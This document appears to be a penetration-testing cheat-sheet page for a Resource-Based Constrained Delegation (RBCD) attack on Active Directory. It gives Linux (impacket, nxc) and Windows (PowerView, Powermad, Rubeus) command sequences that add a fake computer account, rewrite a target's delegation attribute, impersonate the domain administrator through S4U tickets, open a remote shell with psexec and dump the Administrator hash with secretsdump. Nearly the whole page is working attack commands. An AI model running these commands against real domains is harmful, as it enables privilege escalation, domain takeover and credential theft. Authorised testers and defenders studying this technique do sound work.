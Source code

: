 ```yaml
---
title: "RBCD Attack"
date: 2024-7-30
tags: ["Pass-The-Ticket", "Pass-The-Hash", "Silver Ticket", "Ticket Granting Ticket", "Active Driectory", "Windows", "RBCD", "Resource-Based Constrained Delegation", "S4U", "Impersonate", "Credential Dumping"]
---
```


### RBCD Attack

{{< tab set1 tab1 active >}}Linux{{< /tab >}}
{{< tab set1 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 0. Check machine account quota

```console
nxc ldap <TARGET> -u <USER> -p '<PASSWORD>' -M MAQ
```

#### 1. Add a fake computer

```console
impacket-addcomputer -computer-name 'EvilComputer' -computer-pass '<COMPUTER_PASSWORD>' -dc-ip <TARGET> '<DOMAIN>/<USER>:<PASSWORD>'
```

#### 2. Rbcd attack

```console
impacket-rbcd -delegate-to '<TARGET_COMPUTER>$' -delegate-from 'EvilComputer$' -dc-ip <DC> -action 'write' '<DOMAIN>/<USER>:<PASSWORD>'
```

#### 3. Impersonate

```console
sudo ntpdate -s <DC> && impacket-getST -spn cifs/<TARGET_DOMAIN> -impersonate administrator -dc-ip <DC> '<DOMAIN>/EvilComputer:<COMPUTER_PASSWORD>'
```

#### 4. Import ticket

```console
export KRB5CCNAME=administrator@cifs_<TARGET_DOMAIN>@<DOMAIN>.ccache
```

#### 5. Post-Attack

```console
# Remote
sudo ntpdate -s <DC> && impacket-psexec <DOMAIN>/administrator@<TARGET_DOMAIN> -k -no-pass
```

```console
# Or secretsdump
impacket-secretsdump administrator@<TARGET_DOMAIN> -k -no-pass -just-dc-user Administrator
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### 1. Import Modules

```console
. .\PowerView.ps1
```

```console
. .\Powermad.ps1
```

#### 2. Check machine account quota

```console
Get-DomainObject -Identity 'DC=<EXAMPLE>,DC=<COM>' | select ms-ds-machineaccountquota
```

#### 3. Create new computer account

```console
New-MachineAccount -MachineAccount EvilComputer -Password $(ConvertTo-SecureString '<COMPUTER_PASSWORD>' -AsPlainText -Force)
```

<small>*Ref: [Powermad.ps1](https://raw.githubusercontent.com/Kevin-Robertson/Powermad/master/Powermad.ps1)*</small>

#### 4. RBCD Attack

```console
$fakesid = Get-DomainComputer EvilComputer | select -expand objectsid
```

```console
$fakesid
```

```console
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($fakesid))"
```

```console
$SDBytes = New-Object byte[] ($SD.BinaryLength)
```

```console
$SD.GetBinaryForm($SDBytes, 0)
```

```console
Get-DomainComputer TARGET_COMPUTER$ | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

#### 5. Check if SecurityIdentifier is now fakesid 

```console
$RawBytes = Get-DomainComputer TARGET_COMPUTER -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity
```

```console
$Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes, 0
```

```console
$Descriptor.DiscretionaryAcl
```

#### 6. Impersonate

```console
.\rubeus.exe hash /password:'<COMPUTER_PASSWORD>' /user:EvilComputer /domain:<DOMAIN>
```

```console
.\rubeus.exe s4u /user:'EvilComputer$' /rc4:<HASH> /impersonateuser:administrator /msdsspn:cifs/<TARGET_DOMAIN> /ptt /nowrap
```

#### 7. Convert to ccache format

```console
python3 rubeustoccache.py <BASE64_TICKET> secrets.kirbi secrets.ccache
```

```console
export KRB5CCNAME=secrets.ccache
```

<small>*Ref: [RubeusToCcache](https://github.com/SolomonSklash/RubeusToCcache)*</small>

#### 8. Post-Attack

```console
# Remote
sudo ntpdate -s <DC> && impacket-psexec <DOMAIN>/administrator@<TARGET_DOMAIN> -k -no-pass
```

```console
# Or secretsdump
impacket-secretsdump administrator@<TARGET_DOMAIN> -k -no-pass -just-dc-user Administrator
```

{{< /tabcontent >}}
